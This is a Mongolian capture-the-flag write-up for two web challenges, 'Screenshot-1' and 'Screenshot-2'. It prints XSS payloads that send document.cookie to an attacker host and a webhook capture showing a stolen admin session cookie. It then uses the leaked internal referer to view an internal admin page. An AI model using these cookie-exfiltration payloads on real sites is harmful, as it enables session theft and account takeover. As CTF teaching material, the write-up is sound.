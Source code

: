 ## Асаах

Docker desktop version биш docker engine  суулгаарай. 

```console
[root@localhost HZ2021]# docker --version
Docker version 20.10.10, build b485636
[root@localhost HZ2021]# docker-compose up -d
```


## Screenshot-1

`http://ipaddress/1337:/feed.php`
XSS өртөмтгий байх амархан шалгаж болно. 

```
<sscriptcript> new Image().src="http://<ATTACKERIP>:<port>/?"+document.cookie; </sscriptcript>
```

эсвэл
```
<sscriptcript>document.write('<img src="http://ATTACKERIP/?'+document.cookie+'" />')</sscriptcript>
```

ирсэн хүсэлтийг шалгавал


```
request: https://webhook.site/ef1e3938-3e7a-49e6-bac0-09cb98fbf017?c=PHPSESSID%3DHZ%7Bye%40h_admin_cook1e_and_fl%40g_0f_ScreenShot_1%7D
parameter:   	PHPSESSID=HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

Headers
connection: close
host: 	webhook.site
accept-language: 	en,*
accept-encoding: 	gzip, deflate
accept: 	*/*
user-agent: 	Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
referer:	http://screen/god-wisper.php
content-length: 	
content-type:	
```
flag
>HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

## Screenshot-2
admin.php рүү хандвал Зөвхөн дотоод IP хандана уу гэсэн байх бөгөөд XSS ээр ирсэн хүсэлтийг анхааралтай харвал. 

**`referer:	http://screen/god-wisper.php`** гэж байгаа

`http://screen/` гэдэг нь docker ийн дотоод url хаяг гэж харж болохоор байна. иймд `http://screen/admin.php` -н screenshot -г харвал 

flag гарч ирнэ. 

![9d7c1f6f904b57a79b892e.jpg](9d7c1f6f904b57a79b892e.jpg)

